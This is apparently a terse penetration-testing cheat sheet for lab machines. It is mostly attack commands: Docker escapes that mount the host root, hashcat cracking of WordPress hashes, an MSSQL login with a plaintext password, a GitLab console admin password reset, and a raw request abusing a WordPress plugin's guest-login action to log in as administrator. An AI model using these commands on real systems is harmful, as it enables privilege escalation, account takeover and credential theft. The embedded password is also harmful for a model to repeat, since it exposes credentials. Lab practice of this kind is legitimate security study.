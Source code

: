 ### Docker PrivEsc
```
docker run -it -v /:/mnt postgres /bin/bash
docker run -v /:/mnt --rm -it redmine chroot /mnt sh
```

### Hashcat Cracking
https://miloserdov.org/?p=5426#7
hashcat -m 400 -a 0 wp_hash /usr/share/wordlists/rockyou.txt

### MSSQL CLI
Activate scratchpy3
```
mssql-cli -U sa -P EjectFrailtyThorn425 -S 192.168.245.70,1435
```
https://www.tarlogic.com/en/blog/red-team-tales-0x01/

### Gitlab Rails
```
gitlab-rails console -e production
user = User.where(id: 1).first
user.password = 'password1'
user.password_confirmation = 'password1'
user.save!
```

### Burp Form Post
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: brainfuck.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: https://brainfuck.htb
Connection: close
Referer: https://brainfuck.htb/wp-login.php?redirect_to=https%3A%2F%2Fbrainfuck.htb%2Fwp-admin%2F&reauth=1
Cookie: wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

username=administrator&email=sth&action=loginGuestFacebook
```
